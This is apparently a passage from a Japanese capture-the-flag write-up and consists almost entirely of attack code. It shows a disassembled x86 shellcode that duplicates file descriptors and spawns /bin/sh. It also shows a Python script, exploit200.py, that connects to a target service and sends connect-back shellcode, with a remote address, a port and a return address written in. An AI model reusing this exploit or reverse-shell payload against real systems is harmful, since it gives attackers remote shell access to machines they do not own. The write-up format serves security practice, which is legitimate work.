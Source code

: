 080483e6 <L1>:
 80483e6:        b0 5a                        mov    $0x5a,%al
 80483e8:        52                           push   %edx
 80483e9:        57                           push   %edi
 80483ea:        52                           push   %edx
 80483eb:        cd 80                        int    $0x80
 80483ed:        4a                           dec    %edx
 80483ee:        79 f6                        jns    80483e6 <L1>
 80483f0:        68 2f 73 68 00               push   $0x68732f
 80483f5:        68 2f 62 69 6e               push   $0x6e69622f
 80483fa:        89 e3                        mov    %esp,%ebx
 80483fc:        50                           push   %eax
 80483fd:        54                           push   %esp
 80483fe:        53                           push   %ebx
 80483ff:        53                           push   %ebx
 8048400:        b0 3b                        mov    $0x3b,%al
 8048402:        cd 80                        int    $0x80
 8048404:        41                           inc    %ecx
 8048405:        44                           inc    %esp
 8048406:        44                           inc    %esp
 8048407:        52                           push   %edx
-----

　shellcodeを元にexploitを作成します。

-----  exploit200.py
#!/usr/bin/python
from socket import *

if __name__ == "__main__":

        for i in range(100):

                s = socket()
                s.connect(('10.81.45.21', 3344))

                shellcode = "\x6a\x61\x58\x99\x52\x42\x52\x42\x52\x68"
                shellcode += "\x56\x51\x2d\x15" ## REMOTE ADDR
                shellcode += "\xcd\x80\x68"
                shellcode += "\x10\x02\x1e\x61" ## REMOTE PORT
                shellcode += "\x89\xe1\x6a\x10\x51\x50\x51\x97"
                shellcode += "\x6a\x62\x58"

                s.send(shellcode + '\n')

                shellcode = "\xcd\x80\xb0\x5a\x52"
                shellcode += "\x57\x52\xcd\x80\x4a\x79\xf6"
                shellcode += "\x68\x2f\x73\x68\x00\x68\x2f\x62"
                shellcode += "\x69\x6e\x89\xe3\x50\x54\x53\x53"
                shellcode += "\xb0\x3b\xcd\x80"
                shellcode += "\x80\xbb\x06\x08" ## RET ADDRESS

                s.send(shellcode + '\n')
                s.close
-----
